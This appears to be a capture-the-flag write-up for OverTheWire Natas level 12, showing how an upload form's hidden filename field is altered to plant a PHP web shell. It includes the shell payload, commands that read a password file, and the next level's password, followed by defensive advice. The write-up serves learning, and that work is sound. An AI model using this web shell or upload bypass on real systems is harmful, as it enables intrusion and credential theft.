 # 🕵️ Natas - Level 12 (🇺🇸 English)  
*Date: 2025-06-03*  
*Difficulty: Medium*  
*Category: Web*   

---

## 🎯 Objective

The objective of this challenge is to identify and exploit a file upload vulnerability that allows client-side filename manipulation, resulting in Remote Code Execution (RCE) to obtain the next level password (Natas13).  

---

## 🔎 Analysis

- The web application at `http://natas12.natas.labs.overthewire.org/` offers a JPEG image upload functionality with a 1KB size limit.  
- Common extension bypass attempts (e.g. `.php.jpg`, `test.php%00.jpg` - null byte) did not work, as the server always appends `.jpg` to the final filename, invalidating execution as PHP.  
- Analysis of the HTML page's source code revealed a hidden field in the upload form: `<input type="hidden" name="filename" value="<?php print genRandomString(); ?>.jpg" />`.  
- This hidden field pre-defines the name of the file that will be saved on the server, including the `.jpg` extension, before the user even selects the file for upload.  
- The vulnerability lies in the fact that the final file name is controlled by a pre-populated value on the client side (via the `hidden` field), which can be intercepted and manipulated.  
- Our goal is to change the extension from `.jpg` to `.php` in the `filename` field of the HTTP request so that the server saves our file with the correct extension.  
- The payload to be sent will be a simple PHP shell: `<?php system($_GET['cmd']); ?>`, allowing the execution of commands via the `cmd` parameter in the URL.
  
---

## 🧱 Steps

1. Access the Application: Navigate to `http://natas12.natas.labs.overthewire.org/`.   
2. Test the Upload: Try to upload a file to observe the server behavior (renaming it to `.jpg`).   
3. Analyze the Source Code: Inspect the HTML code of the upload page to identify the `input type="hidden" name="filename"` field.   
4. Prepare the Payload: Create a PHP file (e.g. `bypass.php`) with the content `<?php system($_GET['cmd']); ?>`.   
5. Intercept the Request: Using the `Burp Suite` proxy tool to capture the file upload request.  
6. Manipulate the File Name: In the intercepted request, locate the `filename` parameter and change its extension to `.php` (ex: c36r0bea02.jpg to c36r0bea02.php).  
7. Send the Request: Send the modified request to the server.  
8. Verify Upload: The server will return a message confirming the upload of the file with the .php extension (e.g.: The file `upload/dnfplwi4tz.php` has been uploaded).  
9. Access the Web Shell: Navigate to the URL of the newly uploaded PHP file (e.g.: `http://natas12.natas.labs.overthewire.org/upload/dnfplwi4tz.php`). Observe the error messages ("Notice: Undefined index: cmd", "Warning: system(): Cannot execute a blank command"), which confirm that PHP is interpreting the file.  
10. Run Commands: Test the execution of commands by adding the cmd parameter to the URL (e.g. `http://natas12.natas.labs.overthewire.org/upload/dnfplwi4tz.php?cmd=pwd`). Confirm the RCE.  
11. Get the Password: Run the command to read the Natas13 password file: `http://natas12.natas.labs.overthewire.org/upload/dnfplwi4tz.php?cmd=cat%20/etc/natas_webpass/natas13`.

---

## 🔑 Password Found

```
trbs5pCjCrkuSknBBKHhaBxq6Wm1j3LC
```

---

## ✅ Conclusion

The vulnerability was successfully exploited by manipulating the filename field of a hidden input in the upload form, which was filled out on the client side. This allowed bypassing server-side extension validation and uploading from a PHP shell. Remote code execution was confirmed and the password for the next level was obtained. This case highlights the danger of relying on any type of client-side input control for application security, especially for upload functionality.

---

## 🧪 Commands Used


Access to web shell (after upload and name manipulation):   
`http://natas12.natas.labs.overthewire.org/upload/[random_name].php`   
Verify RCE:  
`http://natas12.natas.labs.overthewire.org/upload/[random_name].php?cmd=pwd`    
Get Natas13 password:  
`http://natas12.natas.labs.overthewire.org/upload/[random_name].php?cmd=cat%20/etc/natas_webpass/natas13`    

---

## 🧠 Observations

- Server-Side Validation is Crucial: Never rely on client-side validations (JavaScript, hidden HTML fields). Always re-validate all input on the server side.   
- Whitelist for Extensions and MIME Types: Instead of blacklists, use whitelists for file extensions and MIME types allowed for upload.   
- Secure File Renaming: When renaming files, use a randomly generated name and a server-validated extension, without allowing any user input in the final name or extension.   
- Upload Isolation: Files uploaded by users should be stored in a directory outside the web root or configured to not allow script execution.  

---

## 📎 Scripts Developed

[bypass.php](https://github.com/ItacarambiSec/Projects/blob/main/Ctf-scripts/Overthewire_natas/bypass.md): A simple PHP shell (`<?php system($_GET['cmd']); ?>`) used for remote command execution.

---

<p align="center"> <a href="../Natas11/Readme.md">⬅️ Previous</a> • <a href="../Natas13/Readme.md">Next ➡️</a> </p>
